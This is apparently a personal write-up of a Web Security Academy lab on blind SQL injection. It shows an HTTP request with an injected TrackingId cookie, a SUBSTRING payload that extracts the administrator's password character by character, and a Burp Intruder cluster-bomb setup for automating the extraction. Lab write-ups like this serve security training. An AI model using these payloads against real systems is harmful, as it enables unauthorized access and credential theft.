

# Lab: Blind SQL injection with conditional responses
## Description

Found the vulnerable parameter (cookie):
```yaml
GET /filter?category=Gifts HTTP/1.1
Host: acb91f911f1d6796c00cabd3008500f4.web-security-academy.net
Cookie: TrackingId=Je6yQ3NDTba76pcl'+and+'1'%3d'1; session=jRz4gvrpjV1bd9iHTTsDKTgFKF03ibZM
```

Used intruder to identify the first character in the password:
`'+AND+SUBSTRING((SELECT+Password+FROM+users+WHERE+username+%3d+'administrator'),1,1)+%3d+'d`

But, I didn't want to shift the character position manually using the default Intruder attack method `Simple`. Instead, I switched attacking mode to `cluster bomb`. Defined two entry points:
1) A running number from 1-20
2) A simple list of characters a-Z0-9

Once all the options were enumerated, I filtered the results by "Welcome" and sorted the results by the `Payload 1` column (the substring position) which resulted in this:



## Solution

See description.